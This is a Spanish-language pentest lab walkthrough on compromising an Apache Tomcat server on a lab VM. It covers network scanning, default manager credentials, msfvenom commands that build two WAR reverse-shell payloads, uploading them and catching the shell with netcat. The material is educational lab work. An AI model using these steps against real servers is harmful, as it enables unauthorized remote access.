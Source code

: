 # Hacking Servidor Tomcat

Maquinas a utilizar **Kali Linux y  Deploy** [https://vulnyx.com/#deploy](https://vulnyx.com/#deploy)

Vamos a aprender **como podemos explotar un servidor Apache Tocamcat vulnerable**. Generaremos un payload compatible con tomcat subirlo al servidor y lograr intrusión a la maquina victima, vamos a ver **dos tipos de payload diferentes** que tenemos que probar ante un servidor Tomcat.

```bash
sudo arp-scan -I eth0 --localnet  
```

![image.png](./imagenes/image%20167.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.15 -oN escaneo
```

![image.png](./imagenes/image%20168.png)

Nos encontramos un servidor Apache Tomcat corriendo en el puerto 8080.

<aside>
💡

Apache Tomcat es un servidor web  desarrollado por la Apache Software Foundation. Está diseñado para ejecutar aplicaciones web basadas en Java, como servlets y JavaServer Pages (JSP). Su propósito principal es proporcionar un entorno robusto y eficiente para desplegar aplicaciones web dinámicas.

Entre sus usos más comunes se encuentran:

- **Procesamiento de solicitudes HTTP**: Actúa como un servidor web que recibe y responde a solicitudes HTTP.
- **Ejecución de aplicaciones Java**: Permite ejecutar servlets y JSP, generando contenido dinámico para los usuarios.
- **Despliegue de aplicaciones web**: Facilita el despliegue de aplicaciones mediante archivos WAR (Web Application Archive).
- **Gestión de sesiones**: Ofrece funcionalidades para manejar sesiones de usuario en aplicaciones web.
</aside>

- Vamos a verlo en el navegador web.
    
    ![image.png](./imagenes/image%20169.png)
    
    <aside>
    💡
    
    Lo que vemos es lo que aparece por defecto y sin configurar cuando recién instalamos un servidor Tomcat. 
    
    </aside>
    
    Si nos fijamos tenemos una sección **tomcat9-admin** y un enlace llamado **manager webapp** donde nos pide unas credenciales para acceder a la configuración del Apache tomcat.
    
    ![image.png](./imagenes/image%20170.png)
    

![image.png](./imagenes/image%20171.png)

<aside>
💡

**Trucos a probar**: En Tomcat cundo hacemos una instalación ya viene por defecto unas credenciales activadas.

1. Buscaríamos en Google o en otro buscador los siguiente:
    
    **hacktricks apache tomcat default credentials**
    
    ![image.png](./imagenes/image%20172.png)
    
    [**https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html**](./imagenes/https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)
    
    ![image.png](./imagenes/image%20173.png)
    
    Y probaríamos una a una todas las credenciales.
    
2. En el Panel de Login pulsamos a la tecla Cancel.
    
    ![image.png](./imagenes/image%20174.png)
    
    Nos daría un mensaje de error que nos marcaria las credenciales.
    
    ![image.png](./imagenes/image%20175.png)
    
</aside>

- Entramos con las credenciales que hemos encontrado.
    
    ![image.png](./imagenes/image%20176.png)
    

![image.png](./imagenes/image%20177.png)

- Nos encontramos que nos deja subir archivos.
    
    ![image.png](./imagenes/image%20178.png)
    

- Por tanto crearemos un archivo malicioso para subirlo al servidor y ganar intrusión en la maquina.
    - Consultamos nuestra IP.
        
        ```bash
        hostname -I 
        ```
        
        ![image.png](./imagenes/image%20179.png)
        
    
    - Creamos nuestro archivo malicioso.
        
        ```bash
        msfvenom -p java/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f war -o reverse1.war 
        ```
        
        ![image.png](./imagenes/image%20180.png)
        
        <aside>
        💡
        
        **`msfvenom`**:
        Es una herramienta de Metasploit que se utiliza para generar payloads (cargas útiles) que pueden ser usados en pruebas de penetración. Permite personalizar el tipo de ataque, el formato de salida y muchos otros parámetros.
        
        **`p java/shell_reverse_tcp`**:
        Especifica el tipo de payload que quieres crear. En este caso:
        
        - **`java/shell_reverse_tcp`** genera un shell inverso basado en Java que permite al sistema objetivo conectarse de vuelta al atacante (es decir, iniciar una conexión hacia el servidor controlado por el atacante).
        
        **`LHOST=10.0.3.4`**:
        Define la dirección IP del "host local" que recibirá la conexión de retorno desde la máquina objetivo. Es decir, la dirección IP del atacante.
        
        **`LPORT=4443`**:
        Especifica el puerto que estará escuchando en la máquina del atacante para recibir la conexión inversa.
        
        **`f war`**:
        Indica el formato del archivo de salida. En este caso, se utiliza el formato `.war` (Web Application Archive), que es comúnmente desplegado en servidores Java como Apache Tomcat.
        
        **`o reversel.war`**:
        Define el nombre del archivo que se generará como resultado del comando. En este caso, se generará un archivo llamado `reversel.war`.
        
        </aside>
        
    
    En condiciones normales con este payload nos bastaría para ganar intrusión pero todo dependerá de como este hecho el servidor podría funcionar o no. Así que vamos a crear otro distinto por si el primero no funcionara. La diferencia estriba en que tipo de payload reverse vamos a usar en uno usarmeos `java/shell_reverse_tcp` y en otro `java/jsp_shell_reverse_tcp`.
    
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f war -o reverse2.war
    ```
    
    ![image.png](./imagenes/image%20181.png)
    
    - Vamos a subir los dos archivos maliciosos.
        
        ![image.png](./imagenes/image%20182.png)
        
        ![image.png](./imagenes/image%20183.png)
        

- Nos ponemos a la escucha con netcat por el puerto que habíamos especificado en msfvenom en mi caso 443.
    
    ![image.png](./imagenes/image%20184.png)
    
- Vamos probando los archivos para ver si funcionan haciendo clip en ellos en el panel web. En mi caso funcionan los dos.
    
    ![image.png](./imagenes/image%20185.png)
    

- Vamos a hacer un **tratamiento de la TTY**
    
    En el apunte: **Primeros pasos tras la Intrusión (Tratamiento de la TTY)**